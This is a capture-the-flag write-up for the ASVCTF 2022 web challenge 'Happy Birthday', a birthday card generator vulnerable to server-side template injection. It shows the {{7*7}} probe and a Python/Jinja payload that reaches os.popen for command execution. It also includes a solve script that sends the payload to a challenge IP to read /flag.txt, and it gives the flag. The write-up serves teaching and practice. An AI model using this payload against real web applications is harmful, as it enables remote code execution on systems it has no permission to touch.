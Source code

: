 ```yaml
---
title: Writeup - Happy Birthday (ASVCTF 2022)
date: 2022-08-20 00:00:00
tags: 
- writeup
- web
- asvctf2022
---
```


# ASVCTF 2022 - Happy Birthday Writeup
- Type - Web
- Name - Happy Birthday
- Points - 300

## Description
```markdown
Cowabunga dudes and dudettes. 

Michelangelo here, and I've built you a Birthday Card Generator from me and my 
brothers! Donnie says I need to secure it, but I think it's the coolest thing 
since sliced pizza.

Party On!
```

## Writeup
When you navigate to a hosted instance, all you see is a very simple page:

<img src="/static/asvctf-happybirthday/site.png" width="500px">

Any input you place is shown on the page (such as the value `test`, seen below). Note that XSS payloads don't work since the `<` and `>` characters are properly escaped. 

<img src="/static/asvctf-happybirthday/test.png" width="500px">

At this point, it wasn't clear if the input was going through any sort of server-side check, or if the vulnerability was present elsewhere, but I tried a [Server-Side Template Injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) (SSTI) payload anyway. The most simple payload to test is `{{7*7}}`, and if you see `49` as the result instead of `{{7*7}}`, then you know that the values inside are being processed as code. After trying this, I saw the value `Happy Birthday 49!` reflected, meaning it *was* vulnerable to SSTI!

A quick check of the response headers showed the `Server` set to `Werkzeug/1.0.1 Python/2.7.14`, meaning we had to use a Python SSTI payload to get RCE. I copied a [simple RCE payload from the internet](https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part) (`{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`) to run my code and get the output. After a little looking around, I found that the flag was stored in `/`, so the command `cat /flag.txt` worked!

### Solve Script
Here is my [automated exploit](/static/asvctf-happybirthday/solve.py) in Python:

```python
import requests
from urllib.parse import urlencode
from bs4 import BeautifulSoup

# define SSTI payload
payload = urlencode({
        "name": "{{'foo'.__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen('cat /flag.txt').read()}}"
    })

# send request and get result
result = requests.request(
    "POST", "http://193.57.159.27:47715/",
    data=payload, 
    headers={'Content-Type': 'application/x-www-form-urlencoded'}
)

# parse result for flag
html = BeautifulSoup(result.text, "html.parser")
flag = html.find_all("h1")[0].text
print(flag)
```

**Flag:** `ASV{f31d34e2b726b385741db15fec005661}`